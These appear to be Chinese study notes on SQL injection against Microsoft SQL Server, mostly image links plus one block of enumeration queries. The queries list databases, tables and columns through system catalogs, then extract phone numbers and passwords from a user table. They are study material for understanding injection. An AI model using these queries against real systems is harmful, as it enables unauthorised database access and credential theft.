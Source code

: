 ![image-20230925211713815](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925211713815.png)

#### 关键表特性

![image-20230925212831554](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925212831554.png)

#### 关键函数

![image-20230925212840998](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925212840998.png)

#### 注入流程

![image-20230925213427964](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925213427964.png)

#### payload

```
枚举数据库名信息master..sysdatabases表中存放着数据库上的所有数据库名信息
select name from master..sysdatabases

获取当前数据库名称
select db_name()

获取jiaofan数据库中的表名信息。 sysobjects中存放着数据库中所有表名信息包括系统表 ，xtype='U' U是
指用户表
select name from jiaofan..sysobjects where xtype='U' xtype各个类型含义：https://blog.csdn.net/JHHJA/article/details/6239590?utm_source=blogxgwz6

获取关键表中的列名信息。syscolumns中放着数据库所有列名信息包括系统表
select name from jiaofan..syscolumns where id=(select id from jiaofan..sysobjects where
name='sl_user')
joining table的实现方法：
select a.name from jiaofan..syscolumns a,jiaofan..sysobjects b where b.name ='sl_user' and
a.id=b.id

获取关键字段中的数据
select shouji,mima from sl_user

```

#### 联合查询

注意需要相似的类型

![image-20230925214921229](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925214921229.png)

![image-20230925222019988](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925222019988.png)

![image-20230925222030049](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925222030049.png)

![image-20230925222041847](C:\Users\27682\AppData\Roaming\Typora\typora-user-images\image-20230925222041847.png)
